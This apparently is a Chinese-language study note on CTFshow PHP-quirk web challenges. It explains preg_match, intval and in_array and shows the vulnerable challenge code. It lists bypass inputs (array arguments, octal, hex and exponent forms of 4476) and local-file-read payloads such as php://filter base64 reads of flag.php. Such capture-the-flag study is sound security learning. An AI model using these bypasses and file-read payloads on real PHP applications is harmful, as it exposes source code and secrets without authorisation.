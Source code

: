 ### php特性
<a href="https://blog.csdn.net/qq_49480008/article/details/113753951">ctfshow php特性</a>


<a href="https://blog.csdn.net/weixin_45696568/article/details/113631173">ctf show-web入门 php特性篇部分题解</a>
<a href="https://www.php.net/manual/zh/class.reflectionclass.php">php反射类</a>
<br/>
<a href="https://blog.csdn.net/weixin_45669205/article/details/113753555">CTFshow——PHP特性(上)</a>


<a href="https://www.jianshu.com/p/c9089fd5b1ba?u_atoken=55f06165-8dc7-43a0-acb3-309d0e0317f9&u_asession=01Ydg4338TWEiMLDpgKvF2q4f6Dfqa4o9YasDOnSNJhEBektMeYc13GAY1yTKfeRH7X0KNBwm7Lovlpxjd_P_q4JsKWYrT3W_NKPr8w6oU7K9tlc1S1VDIzYaFpthpLz1pp5RU6UlCZRD0CDVEtyq5OmBkFo3NEHBv0PZUm6pbxQU&u_asig=05e8UfzbqaZ0I2SYhoWmA47-j_G7Hw8vsxR15OwF8YpjPx9tz31315NoWMFmMTHPhx4LBC6NA6FTuQVWRwThQPdNIvHHElI7KdaPMZTheQyPv6ne_0HeiR91C41qCNcA7v7mwUu9YIQe74zsZ94prppDqZfxWYLvRWWlVaZLRXyzL9JS7q8ZD7Xtz2Ly-b0kmuyAKRFSVJkkdwVUnyHAIJzb8E_iikv3wlFL21jRAq0ydc4u7x92shjHxOdS8yhDolO21gpjNe9akLVIO763CEMe3h9VXwMyh6PgyDIVSG1W_8k7K1cPWI9GVxiP0T4REaIwNOrpX04BxodSt1A8Jz_VCjl2eFlqtj_8xRzSlA-jjW5clkFoonSpC1jx2m-vD0mWspDxyAEEo4kbsryBKb9Q&u_aref=iUhPtKjOUx2oyWZ%2Bgt6xnyOCkgI%3D">MD5 强类型绕过(true):</a>

preg_match()

此函数用于执行正则表达式匹配</br>
语法:

int preg_match ( string $pattern , string $subject [, array &$matches [, int $flags = 0 [, int $offset = 0 ]]] )

参数说明：

    $pattern: 要搜索的模式，字符串形式。

    $subject: 输入字符串。

    $matches: 如果提供了参数matches，它将被填充为搜索结果。 $matches[0]将包含完整模式匹配到的文本， $matches[1] 将包含第一个捕获子组匹配到的文本，以此类推。

    $flags：flags 可以被设置为以下标记值：
    PREG_OFFSET_CAPTURE: 如果传递了这个标记，对于每一个出现的匹配返回时会附加字符串偏移量(相对于目标字符串的)。 注意：这会改变填充到matches参数的数组，使其每个元素成为一个由 第0个元素是匹配到的字符串，第1个元素是该匹配字符串 在目标字符串subject中的偏移量。

    offset: 通常，搜索从目标字符串的开始位置开始。可选参数 offset 用于 指定从目标字符串的某个未知开始搜索(单位是字节)。

返回值(重点)：
返回 pattern 的匹配次数。 它的值将是 0 次（不匹配）或 1 次，因为 preg_match() 在第一次匹配后 将会停止搜索。preg_match_all() 不同于此，它会一直搜索subject 直到到达结尾。 如果发生错误preg_match()返回 FALSE。
```
绕过姿势:
如果不按规定传一个字符串，通常是传一个数组进去，这样就会报错，从而返回false，达到我们的目的。
```

## intval()

intval() 函数用于获取变量的整数值。

intval() 函数通过使用指定的进制 base 转换（默认是十进制），返回变量 var 的 integer 数值。 intval() 不能用于 object，否则会产生 E_NOTICE 错误并返回 1。

语法:
```
int intval ( mixed $var [, int $base = 10 ] )
```

参数说明:

    $var：要转换成 integer 的数量值。
    $base：转化所使用的进制。

进制：
```
0??:八进制
0x??:十六进制
0b??:二进制
```

当题目:
```php
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
}
```


可以通过这些方法绕过(从羽师傅那里学的):
```
intval('4476.0')===4476    小数点 #intval只识别整数部分
intval('+4476.0')===4476   正负号
intval('4476e0')===4476    科学计数法
intval('0x117c')===4476    16进制
intval('010574')===4476    8进制 #当题目过滤字母时，2和16进制都不好用
intval(' 010574')===4476   8进制+空格 #当要求存在0且0不是首位时
intval('0b1000101111100')===4476  2进制
```

#### web96(路径问题)
```php
<?php
highlight_file(__FILE__);

if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }
}
```
payload
```
php://filter/read=convert.base64-encode/resource=flag.php #利用LFI来查看源码
/var/www/html/flag.php              绝对路径
./flag.php                          相对路径
php://filter/resource=flag.php      php伪协议 
```

### in_array()

in_array：(PHP 4, PHP 5, PHP 7)

功能：检查数组中是否存在某个值
```
定义： bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )
```
```
在 $haystack中搜索 $needle，如果第三个参数 $strict的值为 TRUE，则 in_array()函数会进行强检查，检查 $needle的类型是否和 $haystack中的相同。如果找到 $haystack，则返回 TRUE，否则返回 FALSE。
````

#### web102、103——回调函数、经base64与bin2hex后全为数字
```php
<?php
highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}
?>
'''
